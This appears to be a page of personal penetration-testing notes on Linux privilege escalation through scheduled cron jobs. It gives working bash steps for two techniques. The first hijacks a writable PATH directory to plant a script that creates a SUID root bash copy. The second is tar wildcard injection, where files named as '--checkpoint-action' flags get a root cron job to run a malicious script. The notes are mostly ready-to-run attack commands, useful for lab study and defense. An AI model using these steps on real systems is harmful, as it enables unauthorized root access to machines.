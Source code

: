 -- -
The main workflow here is to see what runs on a schedule from #cron or #systemd and then try to hijack it in some way. This can get creative :)
[[Dark Arts/Privesc/Linux/Enumeration/Cron Jobs|Enum]]
#### overwrite file
```bash
# lets say we found a scheduled task that looks like the following:
# * * * * * root overwrite.sh

# First, look at the PATH set to see where it looks for it, and lets say that path looks like the following:
# PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# so it checks the directories in that order. Look for any directory in that path that you can write to, in the example we can see it first looks through the user directory:
# /home/user
# that looks like a low privilege folder, so lets check it
ls -la /home/user

# that outputs:
# drwxr-xr-x 6 TCM user 4096 Jun 20 15:47 .

# This shows that we can write to that directory. This would also work if the overwrite.sh was writable by us. 

# so just simply make a malicious script, and output it to that location
echo "cp /bin/bash /tmp/bash; chmod +s /tmp/bash" > /home/user/overwrite.sh
chmod +x /home/user/overwrite.sh

# then just wait, after it gets run you can run your suid bit shell
/tmp/bash -p 
```
#### Wildcards
For this vector, you: 
- notice a script (or command) that is run via scheduled task. 
- the command uses a wild card in the command
- The script uses a command that uses a wild card
You may then be able to hijack the command being run with a wildcard to get it to hand you a shell. 
```bash
# for this example, we are going to see the following script in the crontab, but same process for if it's a direct command in crontab:
# * * * * * root /usr/local/bin/compress.sh

# it's an absolute path, so we need to see if the script can be manipulated, first check if you can overwrite it:
ls -la /usr/local/bin/compress.sh

# given the location, that is not likely. So next step is to read the script
cat /usr/local/bin/compress.sh

# and lets say we find the use of a wildcard by the following line in /usr/local/bin/compress.sh:
# cd /home/user
# tar czf /tmp/backup.tar.gz *

# again, you can also see that tar command with a wild card used directly in the crontab. Would be the same from here.

# create malicious script, for this example we write to /home/user
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > runme.sh
chmod +x runme.sh

# this part is specific to exploiting tar for a wild card
# create flag files in the directory where tar will be run.
touch '/home/user/--checkpoint=1'
touch '/home/user/--checkpoint-action=sh\ runme.sh'

# so when tar runs with a wild card, it picks up all the files in pwd, so we are placing files that are named valid tar flags, so when they are picked up, they are processed as flags for tar, so they will point to executing sh and running your malicious script, which since it is run as aroot owned cron job, it will run it as root and spit out the suid shell
```